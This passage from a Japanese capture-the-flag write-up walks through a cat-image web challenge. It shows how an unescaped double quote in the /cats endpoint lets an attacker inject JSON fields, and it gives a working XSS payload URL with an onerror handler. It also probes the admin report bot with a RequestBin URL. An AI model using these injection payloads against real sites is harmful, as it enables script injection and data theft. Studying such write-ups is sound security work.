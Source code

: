 ```html
		<select id="cat_select">
			<option value="black">black</option>
			<option value="grey">grey</option>
			<option value="red">red</option>
			<option value="white">white</option>
		</select>
		<div id="cats_container"></div>
		not like sumthing? send it <a href="/report">hier</a>
	</body>
</html>
```

セレクトボックスから色を選択すると `/cats?kind=(選択した色)` という感じで API を叩き、返ってきた JSON に含まれるパスを画像として表示するアプリケーションのようです。なお、`newDiv.innerHTML = '<img style="max-width: 200px; max-height: 200px" src="static/'+kind+'/'+cat+'" />';` とその色とパスをそのまま HTML に結合した上で `innerHTML` に設定しており、XSS ができそうです。

### XSS したい

`/cats` が XSS に使えないか調べてみましょう。`/cats?kind=red` にアクセスすると以下のような JSON が返ってきました。

```json
{"status": "ok", "content": ["69aa998e638d6ab2f22a7e2b273f59da.jpg", "unnamed.jpg", "cats-32.jpg", "ryizhiy-kotenok1.jpg", "e4dc63465b454a8f1df7c28bfcec9c65.jpg"]}
```

`/cats?kind=neko` にアクセスすると以下のような JSON が返ってきました。

```json
{"status": "error", "content": "neko could not be found"}
```

`/cats?kind=%22` にアクセスすると以下のような JSON (?) が返ってきました。

```json
{"status": "error", "content": "" could not be found"}
```

`"` がエスケープされておらず、JSON の構造を破壊することができそうです。先程のページで `innerHTML` 経由の XSS ができる条件として `data.status != 'ok'` があるので、`status` プロパティを `ok` にした上で `content` プロパティも置き換えてしまいましょう。

`/cats?kind=",%20"status":%20"ok",%20"content":%20["abc\u0022%20onerror\u003d\u0022alert(123)"],%20"a":%20"` にアクセスすると以下のような JSON が返ってきました。

```json
{"status": "error", "content": "", "status": "ok", "content": ["abc\u0022 onerror\u003d\u0022alert(123)"], "a": " could not be found"}
```

`/?",%20"status":%20"ok",%20"content":%20["abc\u0022%20onerror\u003d\u0022alert(123)"],%20"a":%20"` にアクセスするとアラートが表示されました。

### フラグはどこですか

`/report` からは URL を admin に報告できます。ところが、`fetch` で `/flag` や `/admin` のようなコンテンツを取得して適当な URL に投げさせてみてもどれも 404、`document.cookie` や `document.referer` も空とフラグの場所がわかりません。

ここで試しに RequestBin で生成した URL を投げてみたところ、`Mozilla/5.0 (X11; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0` という User-Agent のブラウザからアクセスが来ました。どうやら問題サーバと同じオリジンでなくてもアクセスしてくれるようです。
